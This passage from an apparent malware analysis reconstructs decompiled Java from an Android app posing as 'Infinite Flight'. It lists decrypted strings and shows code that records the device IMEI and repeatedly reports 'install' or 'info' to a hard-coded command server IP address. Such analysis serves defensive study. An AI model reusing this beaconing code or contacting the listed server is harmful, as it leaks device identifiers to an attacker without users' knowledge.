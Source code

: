 I will not get into details of the algorithm here (see last section), so here are the decrypted strings:

> ```
>0: tall  
>1: ei  
>2: ins  
>3: url  
>4: im  
>5: one  
>6: inst  
>7: time  
>8: _per  
>9: id  
>10: _inst  
>11: info  
>12: ehv  
> ```

And then, the code could be written as follows, according to what JD-GUI shows:

> ```java
>public void run(){
>	if (!this.q.w.contains("one_inst")){
>		SharedPreferences.Editor editor = this.q.w.edit();
>		editor.putInt("one_inst", 1);
>		editor.putString("url", this.q.getApplicationContext().getString(R.string.URL));
>		editor.putString("inst", "1");
>		editor.putLong("time_per_ehv", 100L);
>		//o.t(Context) returns the device ID
>		editor.putString("id", this.q.getApplicationContext().getString(R.string.PREFIX_ID) + o.t(this.q.getApplicationContext()));
>		editor.putString("imei", o.t(this.q.getApplicationContext()));
>		editor.apply();
>	}
>	if (this.q.w.getString("inst", null) == "1") {
>		new v(this.q.getApplicationContext(), new ArrayList(), "install").execute(new String[] { this.q.w.getString("url", null) });
>	}
>	else{
>		new v(this.q.getApplicationContext(), new ArrayList(), "info").execute(new String[] { this.q.w.getString("url", null) });
>	}
>	Tb.q(this.q).postDelayed(this, bo.q);      
>}
> ```

knowing that `strings.xml` contains:

> ```xml
><string name="app_name">Infinite Flight</string>
><string name="hello_world">Hello world!</string>
><string name="action_settings">Settings</string>
><string name="PREFS_NAME">AppPrefs</string>
><string name="PREFIX_ID">0080</string>
><string name="URL">http://37.1.207.31/api/?id=7</string>
> ```
